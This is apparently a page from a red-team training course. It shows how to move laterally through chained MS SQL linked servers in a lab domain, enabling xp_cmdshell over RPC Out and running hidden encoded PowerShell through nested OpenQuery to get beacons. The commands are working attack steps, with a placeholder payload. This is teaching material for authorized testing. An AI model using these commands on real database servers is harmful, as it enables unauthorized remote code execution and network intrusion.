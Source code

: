 SQL Servers have a concept called "Linked Servers", which allows a database instance to access data from an external source. MS SQL supports multiple sources, including other MS SQL Servers. These can also be practically anywhere - including other domains, forests or in the cloud.

We can discover any links that the current instance has:

```
SELECT * FROM master..sysservers;
```

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/srv1-link.png)

  

We can query this remote instance over the link using **OpenQuery**:

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

>  The use of double and single quotes are important when using OpenQuery.

That includes being able to query its configuration (e.g. xp_cmdshell).

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```


If xp_cmdshell is disabled, you can't enable it by executing `sp_configure` via OpenQuery. If **RPC Out** is enabled on the link (which is not the default configuration), then you can enable xpcmdshell using the following syntax:

```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]
```
>  The square braces are required as part of the SQL syntax.

  

Manually querying databases to find links can be cumbersome and time-consuming, so you can also use `Get-SQLServerLinkCrawl` to automatically crawl all available links.

```
beacon> powershell Get-SQLServerLinkCrawl -Instance "srv-1.dev.cyberbotic.io,1433"

Version     : SQL Server 2016 
Instance    : SRV-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       : {SQL01.ZEROPOINTSECURITY.LOCAL}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO, SQL01.ZEROPOINTSECURITY.LOCAL}
User        : sa
Links       : 
```

This output shows a chain from `SRV-1 > SQL-1.CYBERBOTIC.IO > SQL01.ZEROPOINTSECURITY.LOCAL`, the links are configured with local `sa` accounts, and we have sysadmin privileges on each instance.

To execute a shell command on `sql-1.cyberbotic.io`:

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')
```

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/sql1-beacon.png)

  

And to execute a shell command on `sql01.zeropointsecurity.local`, we have to embed multiple OpenQuery statements (the single quotes get exponentially more silly the deeper you go):

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select * from openquery("sql01.zeropointsecurity.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/sql01-beacon.png)